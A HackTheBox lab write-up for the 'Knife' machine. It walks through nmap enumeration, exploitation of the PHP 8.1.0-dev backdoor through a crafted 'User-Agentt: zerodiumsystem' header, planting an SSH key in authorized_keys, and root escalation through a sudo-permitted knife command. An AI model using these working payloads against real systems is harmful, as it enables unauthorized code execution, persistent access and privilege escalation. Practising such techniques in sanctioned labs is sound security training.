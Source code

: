# HackTheBox: [Knife](https://app.hackthebox.com/machines/Knife)

## Enumeration

```console
$ sudo nmap -n -sC -sV -F $t
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-02 12:37 CST
Nmap scan report for 10.10.10.242
Host is up (0.12s latency).
Not shown: 98 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title:  Emergent Medical Idea
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Let's check the PHP version:

```console
$ curl -si http://$t | grep X-Pow
X-Powered-By: PHP/8.1.0-dev
```

## Exploitation

[PHP version 8.1.0-dev has a remote code execution vulnerability](https://www.exploit-db.com/exploits/49933). It's actually a malicious backdoor that was quickly discovered and removed in 2021.[^1]

It is easily exploited using a sneaky HTTP header:

```console
$ curl -s -H 'User-Agentt: zerodiumsystem("id");' http://$t  | head -n1
uid=1000(james) gid=1000(james) groups=1000(james)

$ curl -s -H 'User-Agentt: zerodiumsystem("cat /home/james/user.txt");' http://$t  | head -n1
a5c3a0[...]
```

I could also create a reverse-shell using the technique above. But why do that when I could get a proper SSH login shell?

```console
$ curl -si -H 'User-Agentt: zerodiumsystem("echo ssh-ed25519\ AAAAC3NzaC1lZDI1NTE5AAAAIHO5Uph4qLCUAKHPPFPwZkQjYzBhDJfnIlH3BQY9WT0T\ e@notahacker >> /home/james/.ssh/authorized_keys");' http://$t  | head -n1
HTTP/1.1 200 OK

$ ssh james@$t
The authenticity of host '10.10.10.242 (10.10.10.242)' can't be established.
ED25519 key fingerprint is SHA256:U3tuGrGxSv//jAzSQDRiUNlQnE6LWwounrcc2Bd0qC4.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.242' (ED25519) to the list of known hosts.
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-80-generic x86_64)
[...]

james@knife:~$ cat .ssh/authorized_keys 
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHO5Uph4qLCUAKHPPFPwZkQjYzBhDJfnIlH3BQY9WT0T e@notahacker
```

## Privilege Escalation

```console
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

`knife` is a utility used with [Chef](https://docs.chef.io/workstation/knife/).

```console
james@knife:~$ /usr/bin/knife --help
Chef Infra Client: 16.10.8

Docs: https://docs.chef.io/workstation/knife/
Patents: https://www.chef.io/patents

Usage: knife sub-command (options)
[...]
```

There is an [entry for knife in GTFOBins](https://gtfobins.github.io/gtfobins/knife/). Like so:

```console
james@knife:~$ sudo knife exec -E 'exec "/bin/sh"'
## id
uid=0(root) gid=0(root) groups=0(root)
## cat /root/root.txt
a5c3a0[...]
```

